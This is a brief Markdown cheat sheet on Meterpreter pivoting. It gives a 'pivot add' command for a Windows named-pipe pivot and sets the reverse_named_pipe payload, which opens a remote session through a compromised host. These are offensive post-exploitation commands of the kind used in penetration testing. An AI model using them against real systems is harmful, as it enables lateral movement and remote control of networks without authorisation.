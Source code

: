 # Meterpreter

#### Pivoting in Meterpreter
`pivot add -t pip -l PIPEHOST -n PIPENAME -a <x86 or x64> -p windows`

#### Payload for Pivoting
`set payload windows/meterpreter/reverse_named_pipe`
